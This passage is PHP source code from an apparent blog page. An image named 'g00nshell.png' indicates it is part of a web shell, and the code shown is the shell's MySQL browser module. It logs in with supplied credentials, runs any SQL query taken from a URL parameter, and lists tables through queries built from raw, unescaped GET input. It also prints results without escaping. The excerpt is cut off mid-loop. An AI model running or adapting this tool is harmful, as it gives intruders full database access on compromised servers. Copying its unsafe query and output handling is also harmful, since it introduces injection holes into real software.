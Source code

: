   if($_POST['port']){$_SESSION['sql_port'] = $_POST['port'];}
  else{$_SESSION['sql_port'] = '3306';}
  if($_SESSION['sql_user'] && $_SESSION['sql_password']){
    if(!($sqlcon = @mysql_connect($_SESSION['sql_host'] . ':' . $_SESSION['sql_port'], $_SESSION['sql_user'], $_SESSION['sql_password']))){
      unset($_SESSION['sql_user'], $_SESSION['sql_password'], $_SESSION['sql_host'], $_SESSION['sql_port']);
      echo("Invalid credentials&lt;br&gt;\n");
      die(sqllogin());
    }
    else{
      $_SESSION['isloggedin'] = "true";
    }
  }
  else{
    die(sqllogin());
  }
  if ($_GET['db']){
    mysql_select_db($_GET['db'], $sqlcon);
    if($_GET['sqlquery']){
      $dat = mysql_query($_GET['sqlquery'], $sqlcon) or die(mysql_error());
      $num = mysql_num_rows($dat);
      for($i=0;$i&lt;$num;$i++){
        echo(mysql_result($dat, $i) . "&lt;br&gt;\n");
      }
    }
    else if($_GET['table'] && !$_GET['sqlf']){
      echo("&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $_GET['table'] . "&sqlf=ins'&gt;Insert Row&lt;/a&gt;&lt;br&gt;&lt;br&gt;\n");
      echo("&lt;table border='1'&gt;");
      $query = "SHOW COLUMNS FROM " . $_GET['table'];
      $result = mysql_query($query, $sqlcon) or die(mysql_error());
      $i = 0;
      $fields = array();
      while($row = mysql_fetch_assoc($result)){
        array_push($fields, $row['Field']);
        echo("&lt;th&gt;" . $fields[$i]);
        $i++;
      }
      $result = mysql_query("SELECT * FROM " . $_GET['table'], $sqlcon) or die(mysql_error());
      $num_rows = mysql_num_rows($result) or die(mysql_error());
      $y=0;
      for($x=1;$x&lt;=$num_rows+1;$x++){
        if(!$_GET['p']){
          $_GET['p'] = 1;
        }
        if($_GET['p']){
          if($y &gt; (30*($_GET['p']-1)) && $y &lt;= 30*($_GET['p'])){
            echo("&lt;tr&gt;");
            for($i=0;$i&lt;count($fields);$i++){
              $query = "SELECT " . $fields[$i] . " FROM " . $_GET['table'] . " WHERE " . $fields[0] . " = '" . $x . "'";
              $dat = mysql_query($query, $sqlcon) or die(mysql_error());
              while($row = mysql_fetch_row($dat)){
                echo("&lt;td&gt;" . $row[0] . "&lt;/td&gt;");
              }
            }
            echo("&lt;/tr&gt;\n");
          }
        }
        $y++;
      }
      echo("&lt;/table&gt;\n");
      for($z=1;$z&lt;=ceil($num_rows / 30);$z++){

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png